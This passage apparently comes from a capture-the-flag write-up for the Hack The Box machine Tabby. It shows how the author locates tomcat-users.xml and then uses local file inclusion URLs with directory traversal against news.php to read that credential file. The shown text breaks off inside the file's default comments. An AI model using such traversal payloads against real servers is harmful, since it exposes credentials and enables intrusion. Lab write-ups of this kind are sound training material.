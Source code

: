
# Foothold
## Local file inclusion (LFI)


So far I did some "random" request and try to get ```tomcat-users.xml``` (such as, */etc/tomcat9/tomcat-users.xml*.) but none of them works. To be more accurate we can download tomcat9 and check find out where the .xml is located.

```console
kali@kali:~$ sudo apt-get install tomcat9
kali@kali:~$ find / -type f -name "tomcat-users.xml" 2>/dev/null
/etc/tomcat9/tomcat-users.xml
/usr/share/tomcat9/etc/tomcat-users.xml
```


now use LFI to access the .xml
- http://tabby.htb/news.php?file=../../../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
- http://tabby.htb/news.php?file=../../../../../../../../../../etc/tomcat9/tomcat-users.xml


One of this link will get you tomcat cerdential. **Dont let empty page full you!!!** check *network -> response* here is what you will find
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
```